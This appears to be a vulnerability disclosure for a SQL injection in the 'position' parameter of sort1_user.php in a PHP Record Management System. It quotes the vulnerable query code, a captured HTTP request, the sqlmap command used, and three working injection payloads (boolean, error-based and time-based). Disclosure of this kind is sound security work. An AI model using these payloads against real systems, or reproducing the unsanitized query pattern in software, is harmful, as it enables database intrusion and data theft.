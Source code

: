 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort1_user.php position parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort1_user.php 

On this page, position parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort1_user.php):
```
$position=$_POST['position'];
$name_query=mysqli_query($conn,"select * from position where position='$position'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort1_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 142
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/sort_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter1=&position=Sort+Personnel+by+Position
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: position (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter1=&position=Sort Personnel by Position' OR NOT 7785=7785#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter1=&position=Sort Personnel by Position' OR (SELECT 1239 FROM(SELECT COUNT(*),CONCAT(0x716b6a7071,(SELECT (ELT(1239=1239,1))),0x716b627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- hkZo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter1=&position=Sort Personnel by Position' AND (SELECT 6538 FROM (SELECT(SLEEP(5)))pXxT)-- XFHL
---
```
